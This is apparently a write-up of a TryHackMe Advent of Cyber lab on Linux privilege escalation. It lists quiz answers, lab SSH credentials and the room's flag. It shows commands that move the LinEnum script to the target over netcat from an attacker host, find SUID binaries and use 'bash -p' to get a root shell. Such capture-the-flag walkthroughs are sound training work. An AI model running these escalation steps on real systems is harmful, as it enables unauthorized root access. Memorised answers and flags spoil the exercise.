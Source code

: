 # The Rogue Gnome

Before we begin, we're going to need to deploy two Instances:

	1. The THM AttackBox by pressing the "Start AttackBox" button at the top-right of the page.
	2. The vulnerable Instance attached to this task by pressing the "Deploy" button at the top-right of this task/day.

- What type of privilege escalation involves using a user account to execute commands as an administrator?

	- `vertical`

- What is the name of the file that contains a list of users who are a part of the sudo group?


	- `sudoers`

- Use SSH to log in to the vulnerable machine like so: ssh cmnatic@MACHINE_IP
Input the following password when prompted: aoc2020

	no answer needed

- Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.
You may find uploading some of the enumeration scripts that were used during today's task to be useful.

	no answer needed

	- On your machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `nc -lvnp 4444 < linEnum.sh`
	- On target `nc -w 3 <YOUR_IP> 4444 > linEnum.sh`
	- On target `chmod +x && ./linEnum.sh`
	- We can see there is `/bin/bash`. Good.
	- This could be done also with `find / -perm -u=s -type f 2>/dev/null`
	- On target `bash -p`
	- `cat /root/flag.txt`

- Use this executable to launch a system shell as root.
What are the contents of the file located at /root/flag.txt?

	- `thm{2fb10afe933296592}`





## see you ...
